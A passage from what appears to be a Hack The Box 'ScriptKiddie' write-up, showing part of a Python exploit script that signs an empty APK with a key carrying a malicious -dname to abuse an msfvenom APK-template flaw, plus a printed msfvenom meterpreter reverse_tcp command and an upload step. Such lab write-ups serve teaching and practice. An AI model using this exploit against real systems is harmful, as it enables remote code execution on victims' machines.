 ```python
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

The script will output malicious .apk file, then we will upload it and trigger the msfvenom vulnerability.

![Upload](/assets/posts/ctf/hackthebox/machines/scriptkiddie/img/upload.png)
_upload malicious .apk_
